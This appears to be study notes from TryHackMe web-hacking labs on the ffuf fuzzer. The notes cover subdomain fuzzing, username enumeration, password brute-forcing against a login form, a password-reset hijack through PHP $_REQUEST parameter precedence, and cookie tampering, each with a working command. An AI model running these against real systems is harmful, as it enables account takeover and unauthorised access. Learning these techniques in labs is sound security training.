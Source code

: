 #### ==**Find directories & hidden website pages**==

ffuf is a fest web fuzzer written in Go that allows typical directory discovery, virtual host discovery (without DNS records) and GET and POST parameter fuzzing.
# Useful Commands:

```bash
ffuf -w txtfile -u url
```

```bash
ffuf -u http://IP.PARAM -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.IP.PARAM' -fs 0
```

The above command uses the **-w** switch to specify the wordlist we are going to use. The **-H** switch adds/edits a header (in this instance, the Host header), we have the **FUZZ** keyword in the space where a subdomain would normally go, and this is where we will try all the options from the wordlist.  

Because the above command will always produce a valid result, we need to filter the output. We can do this by using the page size result with the **-fs** switch. Edit the below command replacing {size} with the most occurring size value from the previous result.  


This command has a similar syntax to the first apart from the **-fs** switch, which tells ffuf to ignore any results that are of the specified size.

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://MACHINE_IP -fs {size}
```

This command is used to check usernames against any matches:

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.122.98/customers/signup -mr "username already exists"
```

|**Switch** | **Function** |  
| :-------:| :------:|
|-w|Selects the file's location on the computer that contains the list of usernames| 
|-X|Specifies the request method|
|-d|Specifies the data that we are going to send|
|-H|Add additional headers to the request|
|Content-Type|To tell the webserver we are sending form data|
|-u|Specifies the URL we are making the request to|
|-mr|The text on the page we are looking for to validate we've found a valid username|

Brute Forcing the found valid usernames:

```bash
ffuf -w names.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.122.98/customers/login -fc 200
```

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```bash
curl -X POST 'http://10.10.122.98/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

Mock cookie http request:

```bash
user@tryhackme$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.122.98/cookie-test
```

and if server response encoded it might look like this:

`Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
